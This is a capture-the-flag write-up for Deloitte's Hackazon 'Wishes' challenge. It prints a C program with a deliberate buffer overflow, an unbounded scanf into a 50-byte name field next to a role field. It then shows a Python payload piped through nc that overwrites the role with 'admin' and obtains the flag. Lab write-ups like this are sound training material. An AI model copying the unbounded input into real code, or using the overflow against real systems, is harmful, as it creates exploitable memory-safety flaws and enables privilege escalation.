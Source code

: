 ![challenge](./img/Capture.PNG)

#### CHALLENGE INFORMATION

Tell Santa your name and he might give you a flag for Christmas!

*Author information: This challenge is developed by Deloitte.*

#### BACKEND SYSTEMS (SHARED)

Backend systems are running for you.
This environment will run until 2021-01-03 23:59:59 CET

**Note: the infrastructure of this challenge is shared between multiple players, please be careful.**

Use the following link to access the challenge:
[tcp://portal.hackazon.org:17002](unsafe:tcp://portal.hackazon.org:17002)

#### FILES

You will need the files below in order to solve this challenge.

[chall.c](./src/chall.c)

#### (75 Points) WISHES

Tell Santa your name and he might give you a flag for Christmas!

---

#### (Solution) Wishes

Given a TCP link and a *.c* file, it indicates the server is running the *.c* file.

- Connect to server using `netcat`:

  ```
  $ nc portal.hackazon.org 17002
  Enter your name:
  ```

  The server is prompting for a name input.

- Opening the [chall.c](./src/chall.c) file:

```c
#include <stdio.h>
#include <stdlib.h>

typedef struct locals {
	char username[50];
	char role[10];
} locals;

int main(void) {
	locals config;
	strcpy(config.role, "user");

	setbuf(stdout, NULL);

	printf("Enter your name: ");
	scanf("%s", config.username);

	printf("Hello, %s!\n", config.username);
	printf("Role: %s\n", config.role);


	if (strcmp(config.role, "admin") == 0) {
		printf("Flag: %s\n", getenv("FLAG"));
	} else {
		puts("Access denied.");
	}
}
```

We can see that `config` consists of 2 arrays: `username[50]` and `role[10]`.

It then requests for the user to input its name which will be stored in the `config.username`. 

Next, it does a comparison to check if `strcmp(config.role, "admin") == 0` in which it will print the flag.

However, since the program does not request for `config.role`, we need to input a string of characters into `config.username` such that it will overflow into `config.role`.

All we have to do is to enter a string that is 50 characters + string `admin` as input. This can be done using a Python [script](./src/wishes.py)

```python
print('A'*50 + 'admin')
```

Finally we can pipe the standard output of the Python file to the TCP server:

```
$ python3 wishes.py | nc portal.hackazon.org 17002
Enter your name: Hello, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAadmin!
Role: admin
Flag: CTF{0c5b3f43b6be7bb150fccc4f4a07a313}
```